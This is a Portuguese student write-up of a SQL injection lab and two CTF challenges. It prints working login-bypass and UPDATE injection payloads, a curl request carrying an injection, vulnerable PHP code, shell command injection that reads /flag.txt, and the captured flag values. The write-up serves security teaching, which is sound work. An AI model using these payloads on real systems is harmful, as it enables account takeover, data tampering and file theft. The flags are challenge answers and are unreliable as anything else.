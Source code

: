 # Trabalho realizado na Semana #8 e #9

## Tarefa 1.1

Para obter os dados de Alice, foi usado o seguinte comando de SQL:

```sql
select * from credential where Name='Alice';
```
![/imgs8/alice_local_sql.png](/imgs8/alice_local_sql.png)

## Tarefa 2.1

O objetivo desta tarefa é fazer um ataque a uma web app que se encontra em www.seed-server.com através de SQL Injection. Ao entrar neste site deparamo-nos com um campo de input de username e de password. O objetivo é realizar o login com a conta de admin, da qual não se conhece a password. O campo password é protegido por hashing o que indica que a injeção deverá ser feita com no campo username. Dois inputs diferentes foram testados que resultaram no sucesso do login na conta de admin:

- admin'; #
- admin' or ''='

O primeiro faz uso de comentários para que a validação da password não seja feita e o segundo usa uma injeção de um or que faz com que a comparação dê sempre verdadeiro.

![/imgs8/profile_login_1.png](/imgs8/profile_login_1.png)

![/imgs8/profile_login_2.png](/imgs8/profile_login_2.png)

Após o login como admin ser realizado com sucesso o que obtemos é uma tabela com informações sobre os utilizadores.

![/imgs8/admin_page.png](/imgs8/admin_page.png)

## Tarefa 2.2

O objetivo continua a ser ganhar acesso da conta de admin mas desta vez através da consola e não da webpage.

Para tal foi usado o comando:
```sh
$ curl 'http://www.seed-server.com/unsafe_home.php?username=admin%27%3B+%23&Password=a' > test.html
```

Ao abrir test.html, ficheiro para o qual foi passado o resultado do curl, obtem-se o seguinte.

![/imgs8/admin_local_html.png](/imgs8/admin_local_html.png)

## Tarefa 2.3

O objetivo era verificar que existe uma defesa que impede que uma query nova seja injetada através dos mesmos campos usados anteriormente. Para verificar tal foi usado o seguinte input:

```
admin'; DELETE FROM credential WHERE name='Alice'; #
```

Que tinha como objetivo apagar da tabela de credenciais a informação da Alice, no entanto tal não foi possível e o resultado foi o seguinte:

![/imgs8/query_failed.png](imgs8/query_failed.png)

Não é possível injetar mais *SQL statements* graça à proteção conseguida através uso da extensão *mysqli* para *PHP*. *mysqli* oferece tanto *query()* como *multi_query()*, o primeiro por motivos de segurança apenas permite que a primeira query seja executada, já o segundo permite a execução de várias queries e é portanto menos seguro.


## Tarefa 3.1

Primeiro é necessário fazer login na conta da alice, tal foi conseguido com o seguinte input de username e uma password arbitrária.

```
alice' #
```
![/imgs8/alice_profile.png](/imgs8/alice_profile.png)

Podemos agora editar o perfil da Alice. Fez-se uso do campo nickname para realizar o ataque, sendo este o input.

```
', salary=80000, nickname='
```

Ficando o perfil da Alice com os seguintes valores.

![/imgs8/alice_profile_res.png](/imgs8/alice_profile_res.png)

## Tarefa 3.2

Agora para alterar o salario temos  de 'alterar' o campo WHERE a query de SQL, sendo o input:

```
', salary=1 WHERE name='Boby'; #
```

Podemos confirmar que o salário de Boby foi efetivamente atualizado:

![/imgs8/boby_salary.png](/imgs8/boby_salary.png)

## Tarefa 3.3

Para conseguirmos mudar a password de outra pessoa vamos ter de usar dois campos diferentes.
Tal é necessário porque o ataque não pode ser feito diretamente no campo password pois o código faz hash desta password e guarda então esta hash.

Foi utilizado o campo *Phone Number* pois este é o único que aparece após o campo password na query de SQL em PHP.

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
    nickname=’$input_nickname’,
    email=’$input_email’,
    address=’$input_address’,
    Password=’$hashed_pwd’,
    PhoneNumber=’$input_phonenumber’
    WHERE ID=$id;";
$conn->query($sql);
```

A password foi mudada para 'alicerocks' e o input do *Phone Number* foi:
```
' WHERE name='Boby'; #
```

Agora é então possível fazer login na conta de Boby com a nova password.

![/imgs8/boby_profile.png](/imgs8/boby_profile.png)


# CTF #8 e #9

## Desafio 1

No acesso à página web fornecida para o desafio é apresentado um formulário de login e um link para logout. Fica claro que a primeira abordagem para procurar e explorar uma vulnerabilidade será no formulário.

Ao analisar o código fonte é possível notar que não há sanitização entre o input do formulário e query de sql que verifica o login. Isto é a vulnerabilidade que será explorada e usada para um ataque.

Esta vulnerabilidade permite então um ataque recorrendo a SQL injection:

![/imgs8/ctf1_1.png](/imgs8/ctf1_1.png)

Este método é muito semelhante ao que foi usado na tarefa 2.1, sendo a unica diferença a sintaxe de SQL usada.

![/imgs8/ctf1_2.png](/imgs8/ctf1_2.png)

Conseguimos assim aceder ao cofre e obter a flag

```
flag{3970fbb4af4d7e800b6104bb768fd072}
```

## Desafio 2

As funcionalidades disponíveis ao utilizador sem estar autenticado são a de fazer login através de um formulário, obter um speed report da nossa rede atual e a possibilidade de fazer ping a um host

O formulário aparenta estar protegido e não parece ser provável que este revele uma vulnerabilidade que possa ser explorada.

O speed report também não parece ser promissor visto que o único input que recebe do utilizador é um click num botão. Resta então o ping a um host.

Seguindo a dica dada no enunciado deste desafio, será prudente apostar que o servidor esteja a fazer algo parecido com uma system call ou mesmo que os inputs sejam passados a, por exemplo, uma bash de linux.

Primeiro irá ser usado o seguinte input de modo a termos método de comparação.

```
127.0.0.1
```

Este foi o resultado:

![/imgs8/ctf2_1.png](/imgs8/ctf2_1.png)

E agora com :

```
127.0.0.1; whoami
```

O resultado que é esperado é que seja possível fazer ping ao localhost (127.0.0.1) e também obter o user name associado ao uid associado ao processo encarregue de lidar com estes inputs.

![/imgs8/ctf2_2.png](/imgs8/ctf2_2.png)

Conclui-se que é possível fazer a injeção de comandos de consola.

Agora para tentar capturar a flag sabemos que precisamos chegar ao ficheiro flag.txt. O comando *cat* cancatena ficheiros e imprime-os no *stdout*.

```
127.0.0.1; cat /flag.txt
```

![/imgs8/ctf2_3.png](/imgs8/ctf2_3.png)

Conseguimos então chegar à flag:

```
flag{3e0d6f00000e611a9c15aeb018dad2d4}
```
